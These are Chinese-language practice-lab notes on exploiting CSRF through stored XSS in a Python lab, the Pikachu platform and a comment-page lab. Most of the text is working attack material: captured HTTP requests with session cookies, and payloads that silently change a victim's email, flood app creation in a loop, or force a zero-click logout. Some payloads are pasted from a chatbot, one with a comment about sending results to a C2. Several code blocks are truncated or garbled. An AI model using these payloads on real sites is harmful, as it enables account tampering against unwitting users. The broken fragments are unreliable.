


# CSRF    python靶场

更新邮箱使用post方法


尝试改成Get提交，发现行不通


生成一个poc，用浏览器访问


```
访问  http://burpsuite/show/10/wdzinog8x1zbdxbu7vx82pfn5ua4vuea
```


更新简介的方法是   /api/update_bio 这个接口


所以post这个接口可以直接更新简介


而界面本身存在xss漏洞，可以利用xss构造请求post,下面是chatgpt提示词

```
POST /api/update_bio HTTP/1.1
Host: 192.168.126.129:5000
Content-Length: 28
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.126.129:5000
Referer: http://192.168.126.129:5000/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VybmFtZSI6InZpY3RpbSJ9.aLVHow.ls2lxGVqRP3fBe-Irg8AEWi4lqU
Connection: keep-alive

{"bio":"<h1>ciallo111</h1>"}
存在一个xss漏洞，利用这个漏洞，让他每次触发xss的时候，实现发送
POST /update_email HTTP/1.1
Host: 192.168.126.129:5000
Content-Length: 12
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://192.168.126.129:5000
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.126.129:5000/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VybmFtZSI6InZpY3RpbSJ9.aLVHow.ls2lxGVqRP3fBe-Irg8AEWi4lqU
Connection: keep-alive

email=wodefa
```

> 

------

# 1. 最简单可靠 — 隐藏表单自动提交（兼容性强）

适用于后端接受 `application/x-www-form-urlencoded` 的传统表单 POST。不会受 fetch credentials 设置影响，浏览器会随请求带 Cookie。

把下面整个 HTML 放进 bio（或能被渲染为 HTML 的输入）：

```html
<form id=__f action="/update_email" method="POST" style="display:none">
  <input name="email" value="wodefa">
</form>
<script>document.getElementById('__f').submit();</script>
```

优点：兼容性强、在没有 fetch/XHR 的限制下也能发起同源写操作。缺点：可见请求来源为表单提交（Referer 仍会是当前页）。

------

# 2. XMLHttpRequest（更“程序化”）

适用于想用 JS 控制重试、回调或检测返回结果的场景。

```html
<script>
try {
  var xhr = new XMLHttpRequest();
  xhr.open('POST','/update_email',true);
  xhr.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
  xhr.onreadystatechange = function(){
    if(xhr.readyState===4){
      // 可记录结果到外部C2或触发其它动作（测试时可注释）
      // console.log(xhr.status, xhr.responseText);
    }
  };
  xhr.send('email=wodefa');
} catch(e){}
</script>
```

优点：可检查状态码与响应，便于自动化验证。缺点：如后端要求 CSRF token，则失败。

------

# 3. fetch（现代写法，支持 credentials 参数）

```html
<script>
fetch('/update_email',{
  method:'POST',
  credentials:'same-origin',
  headers:{'Content-Type':'application/x-www-form-urlencoded'},
  body:'email=wodefa'
}).then(r=>{/* 可处理结果 */}).catch(e=>{/* 处理错误 */});
</script>
```

注意 `credentials:'same-origin'` 确保发送同源 cookies（默认同源也会发送，但显式写更清楚）。优点与 XHR 类似，语法更简洁。

```
{}).catch(e=>{});
">
```


------

# 4. onerror 图片触发（当页面禁止 `<script>` 标签但允许属性事件时）

有些场景页面禁止 `<script>` 标签但允许内联事件，这个能在 img onerror 上执行 JS（风险更高，某些过滤器会杜绝）：

```html

```

优点：能绕过仅过滤 `<script>` 的简单过滤器。缺点：更易被防护规则检测并拦截。


------

# 5. 周期/重复触发（每次访问或间隔重复改邮箱）

如果想在每次页面加载或每隔一段时间重复执行：

```html
<script>
function change(){
  navigator.sendBeacon('/update_email', new URLSearchParams({email:'wodefa'}));
}
// 每次加载尝试一次
change();
// 每 60 秒再试一次（可按需改）
setInterval(change, 60000);
</script>
```

注意：`navigator.sendBeacon` 的 `Content-Type` 不是 `application/x-www-form-urlencoded`，但多数后端仍能解析 `URLSearchParams`；若后端严格要求头则用 fetch/XHR。Beacon 在页面卸载时也能可靠发送。


### 创建新应用,一次性全部创建完

```
POST /create_app HTTP/1.1
Host: 192.168.126.129:5000
Content-Length: 12
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://192.168.126.129:5000
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.126.129:5000/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VybmFtZSI6InZpY3RpbSJ9.aLV2PQ.HLDxT0jYvj7f-dtg07v8tEX2C84
Connection: keep-alive
app_name=123

通过下面的ssrf漏洞一次发十个app_name不一样的包
{}).catch(e=>{});
">
```

明白了，你希望生成 **大量请求**，而且 `app_name` 是 **随机的**。可以用 JS 循环配合随机字符串生成。示例如下：

```html
 console.log('Created', name))
      .catch(e => console.error(e));
  }
">
```

### 说明

1. `randomName(len)`：生成指定长度的随机字符串作为 `app_name`。
2. `for (let i = 0; i < 100; i++)`：循环次数可以改，决定要发多少请求。
3. `credentials: 'same-origin'`：带上 cookie。
4. `encodeURIComponent(name)`：防止特殊字符报错。

> ⚠️ 注意：如果请求数量非常多（几百甚至上千），浏览器可能会限制并发请求，建议 **分批发送或加 `setTimeout` 控制间隔**，避免浏览器阻塞或服务器拒绝。

填满应用




# CSRF pikachu平台

### 1.csrf  get


构造payload

```
http://47.242.11.182:8080//vul/csrf/csrfget/csrf_get_edit.php?sex=bau&phonenum=saddfa&add=sdfsdf&email=128.com&submit=submit
```

### 2.csrf post


利用存储xss漏洞

```
<script>alert(document.cookie)</script>
靶场存在如上存储型xss漏洞，利用漏洞发一下的包
POST /vul/csrf/csrfpost/csrf_post_edit.php HTTP/1.1
Host: 47.242.11.182:8080
Content-Length: 47
Cache-Control: max-age=0
Accept-Language: zh-CN,zh;q=0.9
Origin: http://47.242.11.182:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://47.242.11.182:8080/vul/csrf/csrfpost/csrf_post_edit.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=5bi35d0s88l9fsig67l6k60r26
Connection: keep-alive

sex=1&phonenum=12&add=22&email=22&submit=submit
```


```html
<script>
fetch("http://47.242.11.182:8080/vul/csrf/csrfpost/csrf_post_edit.php",{method:"POST",credentials:"include",headers:{"Content-Type":"application/x-www-form-urlencoded"},body:"sex=1&phonenum=12&add=22&email=22&submit=submit"});
</script>
```

### 刷新后自动发包


修改成功


# 4.CSRF靶场实现0点击csrf退出



### 先删除原先的评论

```
这是退出的请求包

GET /logout.php HTTP/1.1
Host: 8.148.75.207:66
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://8.148.75.207:66/product_comments.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=snqvc5d4gie4rfrraknjiocbv0
Connection: keep-alive


```

有评论功能，可能是存储xss的漏洞点

构造payload

```
<script>
fetch("http://8.148.75.207:66/logout.php", {
  method: "GET",
  credentials: "include"
});
</script>
```


点进去就退出登录
